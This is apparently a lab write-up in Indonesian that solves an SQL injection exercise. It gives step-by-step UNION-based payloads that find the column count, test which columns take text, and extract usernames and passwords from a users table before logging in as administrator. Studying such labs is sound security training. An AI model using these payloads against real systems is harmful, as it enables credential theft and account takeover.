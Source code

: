 # SQL Injection Lab – Extracting Data from Users Table

## Lab Description

![image](https://user-images.githubusercontent.com/67383098/234058543-7b45e24b-1e6a-4a3e-b65e-03687d4c983b.png)

---

## Solution

> Database memiliki tabel bernama **users** dengan kolom **username** dan **password**.

### 1. Menentukan Jumlah Kolom

Dengan melakukan uji `ORDER BY`, terlihat bahwa `ORDER BY 3` menimbulkan error.
Artinya query hanya mengambil **2 kolom**.

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' ORDER BY 3 --
```

![image](https://user-images.githubusercontent.com/67383098/234059573-93d0b8a0-ff4b-4e97-b31f-1403e5f81e2c.png)

---

### 2. Menentukan Kolom yang Mendukung Data Teks

Untuk melanjutkan eksploitasi, perlu diketahui kolom mana yang dapat menampilkan data teks.

**Uji pada kolom pertama:**

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT 'A',NULL --
```

![image](https://user-images.githubusercontent.com/67383098/234060309-9038d2e6-2d7d-47c4-a380-36eadbeec012.png)

Hasil: kolom pertama dapat menampilkan data teks.

**Uji pada kolom kedua:**

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT NULL,'A' --
```

![image](https://user-images.githubusercontent.com/67383098/234060453-c86da807-fc07-45d0-bc78-e290bebecaba.png)

Hasil: kolom kedua juga dapat menampilkan data teks.

---

### 3. Mengekstrak Username dan Password

Karena kedua kolom mendukung data teks, kita dapat langsung mengambil data dari tabel **users** tanpa perlu menggunakan fungsi `CONCAT()`.

Payload:

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' 
UNION SELECT username,password FROM users --
```

![image](https://user-images.githubusercontent.com/67383098/234061618-7df6319c-199d-48f5-bf98-234684bff6e6.png)

![image](https://user-images.githubusercontent.com/67383098/234061661-b0778724-17d3-4786-b67a-ad53930b2a46.png)

![image](https://user-images.githubusercontent.com/67383098/234061490-8a148bb3-9d40-4051-b378-6fdf807161e0.png)

Hasil: seluruh **username** dan **password** pada tabel users berhasil diekstraksi.

---

### 4. Login sebagai Administrator

Setelah mendapatkan kredensial, kita dapat login sebagai user administrator.

![image](https://user-images.githubusercontent.com/67383098/234062933-c91f5ab3-85aa-4593-b337-0b49f47d6cec.png)
